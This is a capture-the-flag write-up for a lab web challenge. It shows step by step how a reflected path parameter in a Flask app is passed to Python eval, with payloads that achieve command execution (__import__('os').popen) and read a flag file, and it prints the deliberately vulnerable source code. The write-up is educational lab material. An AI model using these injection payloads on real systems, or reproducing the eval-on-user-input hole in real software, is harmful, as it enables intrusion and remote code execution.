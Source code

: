 # Streamlining portal

Hi, packet inspector,

the AI is preparing some kind of employee streamlining portal on http://user-info.mysterious-delivery.tcc. We fear this
will lead to more lost packages.

Your task is to break into the web and find interesting information on the server.

May the Packet be with you!

---

The portal is really simple

![](portal.png)

There is one path parameter (`/hello/{user}`) which is reflected back.

Inspecting HTTP response headers reveals that the server is using [Gunicorn](https://gunicorn.org/) which is a  **
Python** WSGI HTTP Server.

I started to fuzz the `/hello/{user}`. Sending `/hello/AAA"` provokes HTTP 500.
All other non-standard characters including `'` are handled correctly.

The next idea was to find a payload which would somehow got evaluated. Given this is Python, I tried to close the
quotes myself and comment out the rest of the original code:

```
hello/AAA"#
```

It works, `AAA` is returned. Great!

Let's take it one step further:

```
hello/AAA"+"B"*3#

> Hello AAABBB
```

Yep, code is getting evaluated. Go for command execution:

```
/hello/"+__import__('os').popen('id').read()#

> Hello uid=1000(challengeuser) gid=1000(challengeuser) groups=1000(challengeuser)
```

Now we need to find the flag. Using `ls` we can find the flag in `/app/FLAG`.

Finally, read the flag:

```
/hello/"+__import__('os').popen('cat /app/FLAG/flag.txt').read()#

> Hello FLAG{OONU-Pm7V-BK3s-YftK}
```

---

## Bonus: Reading the source code

Read `/app/app.py`:

```python
from flask import Flask, Blueprint, redirect, render_template

bp = Blueprint("app", __name__)


def create_app():
    app = Flask(__name__)
    app.register_blueprint(bp, url_prefix="/")
    return app


@bp.route('/hello/<path:userstring>')
def hello(userstring):
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message)


@bp.route('/')
def redirect_to_user():
    return redirect("/hello/user", code=302)
```